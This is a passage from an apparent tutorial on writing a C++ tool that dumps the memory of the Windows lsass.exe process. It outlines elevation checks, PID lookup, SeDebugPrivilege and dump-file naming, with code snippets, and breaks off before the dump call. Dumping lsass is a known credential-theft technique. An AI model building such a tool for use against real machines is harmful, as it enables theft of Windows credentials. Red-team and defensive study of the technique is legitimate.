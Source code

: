 
# Code

To reach our goal, we will create a code that will:

- Check we are running an elevated process
- Get the lsass.exe PID
- Generate the file name or get it from the input arguments
- Create the output file with the correct name
- Enable the SeDebugPrivilege privilege
- Get a handle to the lsass.exe process
- Dump the process



## Main function

First we need to check if the process is running with administrative privileges, as it will not work otherwise. We will do this with the function IsElevatedProcess():

```cpp
if (!IsElevatedProcess()) {
	wcout << "[-] Error: Execute with administrative privileges." << endl;
	return 1;
}
```

Then, as we are in an elevated process, we can retrieve the lsass.exe process ID with the function getProcessPid():

```cpp
DWORD processPID = getProcessPid();
wcout << "[+] Process PID: " << processPID << endl;
```

We will then generate a name for the dump file we will create, and also a pointer to it.
- If there is an input argument with a file name, we will use that
- If not, we will generate a file name using the hostname and date.
	- Format: hostname_DD-MM-YYYY-HHMM (for example, hostname_01-12-2021-1200)

```cpp
string filename;
if (argc >= 2) {
	filename = argv[1];
}
else {
	string hostname = getHostname();
	filename = getFileName(hostname);
}
std::wstring stemp = std::wstring(filename.begin(), filename.end());
LPCWSTR pointer_filename = stemp.c_str();
```

With that dump file name, we will create the file (or overwrite it if it already exists!) with the function [CreateFile()](https://docs.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-createfilea):
